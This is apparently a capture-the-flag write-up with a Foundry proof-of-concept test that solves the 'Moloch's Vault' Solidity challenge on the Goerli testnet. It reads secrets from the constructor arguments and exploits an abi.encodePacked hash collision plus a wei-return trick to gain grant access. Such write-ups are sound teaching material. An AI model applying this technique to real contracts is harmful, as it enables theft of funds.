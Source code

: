 ## Moloch’s Vault attack

Moloch's Vault is deployed on Goerli on address 0xafb9ed5cd677a1bd5725ca5fcb9a3a0572d94f6f.

The `sendGrant` function transfers exactly 1 wei to an address given in the constructor and is protected by the following condition

```solidity
require(Moloch == keccak256(abi.encodePacked(msg.sender)) || realHacker[msg.sender], "Far $rm success!!");
```

The function `uhER778` sets `realHacker[msg.sender] = true;` if we pass all the required checks.

To pass all the checks we need to know some variables which were set on the deployment of the contract. To find the values, we can use etherscan.

https://goerli.etherscan.io/address/0xafb9ed5cd677a1bd5725ca5fcb9a3a0572d94f6f#code
Section: Constructor Arguments

Here we can find all the constructor arguments that were given on the deployment.

Important values:

```bash
Arg [0] : molochPass (string): BLOODY PHARMACIST
Arg [1] : _b (string[2]): WHO DO YOU,SERVE?
```

- `BLOODY PHARMACIST` is needed as the first element in `_openSecrete` to bypass the first check `hsah == keccak256(abi.encode(_openSecrete[0]))`
- `WHO DO YOU` and `SERVE?` are needed to bypass the second check `hy7UIH == keccak256(abi.encodePacked(_openSecrete[1],_openSecrete[2]))`
- Ty bypass the third check `keccak256(abi.encode(_openSecrete[1])) != keccak256(abi.encode(question[0]))` we can't use `WHO DO YOU` as the second argument in `_openSecrete` as this is checked that it is different
- Ty bypass the last check `YHUiiFD - RGDTjhU == 1` we need to make sure to send to the contract 2 wei when we receive the 1 wei from the call in the function.

As `abi.encodePacked` is used in the second check, we can just put together value1 + value2 and leave the second string with "".

This will result in the same `keccak256` for `abi.encodePacked` and result in a different value in `abi.encode(_openSecrete[1])`

After we successfully called `uhER778` we're now a realHacker and can call the `sendGrant` function.

The POC shows how we can send `WHO DO YOU` and `SERVE?` as one value and leave the second empty and get us approved as a realHacker.

## Test

forge test --match-contract=MOLOCH_VAULT_Test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

interface IMOLOCH {
    function uhER778(string[3] memory _openSecrete) external payable;
    function sendGrant(address payable _grantee) external payable;
}

contract MOLOCH_VAULT_Test is Test {

    IMOLOCH molochVault;
    function setUp() public {
        // we fork Goerli, so we can use the original MOLOCH_VAULT
        vm.createSelectFork("https://rpc.ankr.com/eth_goerli");
        molochVault = IMOLOCH(0xaFB9ed5cD677a1bD5725Ca5FcB9a3a0572D94f6f);
    }

    function testAttack() public {

        // 57484f20444f20594f55 = WHO DO YOU
        // 53455256453f = SERVE?
        bytes memory secret1 = hex"57484f20444f20594f55_53455256453f";
        bytes memory secret2 = hex""; // SERVE?

        string[3] memory _openSecrete = [
            "BLOODY PHARMACIST", // molochPass
            string(secret1), // _b[0] WHO DO YOU
            string(secret2) //  _b[1] SERVE?
        ];

        sendEthBackToMoloch = true;
        molochVault.uhER778(_openSecrete);        

        // proove with a balance check
        uint256 balanceStart = address(this).balance;

        // now we're a realHacker and we can use the sendGrant function
        sendEthBackToMoloch = false;
        molochVault.sendGrant(payable(address(this)));

        uint256 balanceAfter = address(this).balance;

        assertEq(balanceStart + 1, balanceAfter);
    }

    bool sendEthBackToMoloch;
    receive() external payable {
        // pass the balance check and send eth back
        if (sendEthBackToMoloch) {
            payable(address(molochVault)).transfer(2);
        }        
    }
}
```
